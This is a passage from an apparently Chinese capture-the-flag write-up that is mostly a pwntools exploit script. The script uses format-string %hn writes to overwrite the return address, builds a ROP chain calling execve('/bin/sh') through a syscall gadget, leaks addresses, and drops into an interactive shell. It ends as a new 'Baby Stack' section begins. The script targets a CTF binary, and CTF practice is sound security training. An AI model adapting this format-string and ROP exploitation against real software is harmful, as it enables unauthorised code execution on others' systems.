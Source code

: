 ```python
            b'%67$hn' +
            b'P' * (264 - b - 6) +
            p64(addr) + b'\n')
  buf = conn.recv()

def poke_bytes(addr, b):
  for i, bb in enumerate(list(b)):
    poke_byte(addr + i, bb)

# Construct ROP Chain
elf = ELF('./pwn')
rop = ROP(elf)
print(rop.rax)
print(rop.rdi)
print(rop.rsi)
print(rop.rdx)

load_addr = retaddr - 0xa3fd
test_addr = load_addr + 0xa13d
print('Test target = 0x%x' % test_addr)
poke_bytes(retaddr_addr, (
  p64(load_addr + rop.rax.address) +
  p64(59) + # syscallnum = EXECVE
  p64(load_addr + rop.rdi.address) +
  p64(retaddr_addr + 8 * 10) + # param1 -> /bin/sh
  p64(load_addr + rop.rsi.address) +
  p64(0) + # param2 = 0
  p64(load_addr + rop.rdx.address) +
  p64(0) + # param3 = 0
  p64(load_addr + rop.syscall.address) +
  p64(0) +
  b"/bin/sh"
))

conn.send(b'%35$sPPP' + p64(retaddr_addr) + b'\n')
buf = conn.recv()
retaddr = u64(buf[:buf.find(b'P')] + b'\x00' * 2)
print('RetAddr = 0x%x' % retaddr)

conn.send(b'exit\n')
print(conn.recv(timeout=5))

conn.interactive()
```

## 15. Baby Stack

### Flag 1

checksec 发现只开了 NX，没有 Canary，程序也不是可重定位的。
